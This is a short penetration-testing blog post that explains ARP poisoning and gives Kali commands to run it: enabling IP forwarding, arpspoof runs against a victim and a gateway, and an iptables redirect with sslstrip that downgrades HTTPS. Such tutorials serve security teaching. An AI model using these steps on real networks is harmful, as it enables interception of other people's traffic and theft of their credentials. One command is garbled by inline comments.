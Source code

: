 ```yaml
---
title: Poison that ARP
excerpt: how to execute arp poisoning
categories:
  - Penetration-Testing
tags:
  - pentest
  - MITM
  - ARP
---
```


# What is ARP poisoning?

{% capture fig_img %} ![ARPscreenshot]({{ "/assets/images/arpspoof.png" | absolute_url }}) {% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>visual representation of ARP poison</figcaption></figure>

ARP or Address Resolution Protocol is the protocol that will tell computers the corresponding MAC address of an IP address. In Routing and switching, when a packet is sent to a host outside the local subnet, a Layer 3 device is needed to route the package to the destination. The destination MAC address of a packet will always be next hop in this situation, and the L3 device will change the L3 header accordingly.

ARP poisoning is done by tricking the victim that the attackers PC is the router, thus forwarding all traffic to him instead of to the router. The attacker will work as a proxy, forwarding all the traffic to the router and back, so it would appear that traffic is flowing normally, except of course it isn't, all traffic is getting routed through the attacker first, so he can inspect and even change packets if he wishes.

## Execute ARP poisoning

for this we use Kali:
```
echo 1> /proc/sys/net/ipv4/ip_forward #enables IP forwarding

# this will tell the victim to forward packets to the attacker instead of the router

arpspoof -i eth0 #internet interface -t 6.6.6.6 #targetIP 6.6.6.254 #router

# this will tell the router the attacker is actually the victim computer

arpspoof -i eth0 -t 6.6.6.254 6.6.6.6
```

this is great, but urlsnarf or drift won't work with HTTPS requests, in order to bypass this we can use SSLstrip
this will force HTTP upon the victim, but if the website uses HSTS it won't work.

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <myPort>

sslstrip -l <myPort>
``` 
